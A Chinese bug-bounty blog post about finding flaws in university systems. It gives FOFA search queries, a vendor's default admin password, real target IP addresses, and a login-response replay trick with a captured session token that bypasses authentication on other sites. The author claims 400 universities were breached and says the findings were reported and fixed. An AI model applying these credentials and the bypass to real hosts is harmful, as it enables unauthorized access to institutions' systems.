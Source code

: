 ```yaml
---
# date是手动设置此篇文章编写的时间
date: "2022/08/20 21:05"

# 手动设置此篇文章封面
coverUrl: "https://img-blog.csdnimg.cn/cc38823654b84daf989a87d439b5f500.png"

# 是否置顶
stick: false

# 设置keyword 多个以,分开
keyword: 渗透测试,EDU,web安全
# 设置description
description: edusrc通用思路
# 手动设置标题，否则使用h1标签作为标题
title: 第五更--edusrc通用思路

# 这是设置标签，数组形式
tag: [edu挖掘思路]

# 这里设置类别，数组形式
categories: [edu挖掘思路]






---
```






**edusrc通用思路：**
Ps:此文章是我在2021年四月份所写，这次就直接利用一下了！
思路：要想刷屏上分，就得找系统来挖掘，对于不会审计的我来说只有做一些黑盒测试（会审计大佬可以忽略这一点）
首先我们利用fofa找一些与edu有关的系统
语法：

> “系统” && org=“China Education and Research Network Center”

![在这里插入图片描述](https://img-blog.csdnimg.cn/cc38823654b84daf989a87d439b5f500.png)









其中可以在前面加一些：阅卷系统、评分系统、直播系统、录播系统。（我们需要找的是弱口令能进去的系统）
此次渗透我使用的是：“点播系统” && org=“China Education and Research Network Center”
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/84e2bf1dbd764db38e19f3ff8780a29d.png)

当确定系统后，我们就开始寻找目标站点，能通过弱口令进入的系统是最好的（admin\admin admin\123456)
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/9e1c1d352e034d029ce95d4ede6a9d42.png)


通过上述的弱口令测试并没有进入后台，此时肯定会有爆破密码的想法，但是爆破成功的可能性太小了，于是我思考是否能通过找到操作手册发现默认密码，观察页面有关键字： 网瑞达和WRD视频直播点播系统
于是使用谷歌查找：WRD视频直播点播系统操作手册
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/de96dba89fca4c4ba6fc1b2e336ea8c6.png)


点进去看看能否找到默认密码,运气还是好，碰巧发现了默认密码：默认管理端用户名『admin』 密码为
『Wrd123!@#』。
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/914c87de68fc434dbcb1577401097ddd.png)


发现WRD视频直播点播系统默认密码后，继续使用fofa构造语句查找能进入的系统（如果大多数都是默认密码，此处就是一个弱口令通杀）
语法：“WRD视频直播点播系统” && org=“China Education and Research Network Center”
![在这里插入图片描述](https://img-blog.csdnimg.cn/5ea51e59e8ef46e99b416e4022784c62.png)










运气还是有点倒霉的，这么多站点只有一个通过默认密码进入了系统： http://223.99.203.174:8081/login
（已修复），
测试完后，心里很复杂，这么多站点，就一个弱口令，看见有相关公司，于是在fofa一次公司名称，看看有没有别的站点：
语法：“网瑞达” && org=“China Education and Research Network Center”
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/b98a2025c2ad41af8d9657e79c28b98d.png)


发现这个公司的系统产品挺多的然后继续进行默认密码测试，在1063个站点下，大约测试出了10多个站点， 全部已经提交平台并且修复：
![在这里插入图片描述](https://img-blog.csdnimg.cn/c5af07ed0a794578b8d69d45d7d7e3d6.png)

看着这么多站点 ，却只有一点点能通过默认密码进入，心里非常的失落，于是有了能不能越权登录的想法： 首先在登录框抓登录的返回包看见false,顺手修改为true,放包：
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/84c0e4773888433690c9273045283633.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5f35e2e72a2349e29b5f62b2ab6a2ee4.png)

 


发现这样修改数据包，在放包时无任何反应，于是我思考，能不能用默认密码进入的站点的返回包放入不能登录的站点测试：
（通过测试，寻找到辅助站点：[http://211.64.117.58:9080/signin](http://1)

获取到返回登录数据包：


> HTTP/1.1 200 OK Server: Content-Type: application/json Connection:
> close Cache-Control: no-cache, private Date: Tue, 27 Apr 2021 03:00:35
> GMT Set-Cookie:
> laravel_session=eyJpdiI6IllsZ3EzYTMxVnpKeGdtMnA0dmNXcnc9PSIsInZhbHVlIjoiREJQQ2VIbVNhXC9
> VVE1hWEZ2NTdpa1lralZ6dXRxT0JnNkwzd3JrSEJqMHBlZ001YXhzNFp0MGpvdE9TN0h1TkNQQW94Y
> WFiWlFxbFNBOVpEVUVaVVBnPT0iLCJtYWMiOiI2MTRkYjYyNjA0YzRlNTk3MjczYjYwMzEzMDZiN2M1
> NDg5ZmY1MTAzODIxM2E3ZjM2NDc5Njc3ZWU4MTdmMDI5In0%3D; expires=Tue,
> 27-Apr-2021 05:00:35 GMT; Max-Age=7200; path=/; httponly
> Content-Length: 291 {“success”:true,“data”:{“token”:
> “eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOjEsImlzcyI6Imh0dHA6Ly8yMTEuNjQuMTE3LjU4
> OjkwODAvYXBpL3NpZ25pbiIsImlhdCI6MTYxOTQ5MjQzNSwiZXhwIjoxNjE5NTA2ODM1LCJuYmYiOjE2
> MTk0OTI0MzUsImp0aSI6Ik5RUWtScEZOOUE4Y1d6bWEifQ.U2tsG3rqnt8Qe1lX9rHR1HmHBJlS5mOB
> OmKkInF_GaM”}}

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/65f63b9c441e4fbf8cd58a86b44b312d.png)

去访问目标站点：[http://202.193.24.122:9080/signin](http://1)，然后在登录处输入账号admin 密码任意 ，抓返回， 将包换为刚获取的成功登录包然后放包：
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/c0e4f2abbb20493d9975a4d40c05b8a1.png)

点击放包，没想到全部的数据包放完后，就成功的进入到后台了
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/49d31468745441ef91fdd55391d52866.png)


随后我任意选择了几个不同的学校进行了测试，都可以通过此方法进入后台，通过收集，一共有400所高校被日。

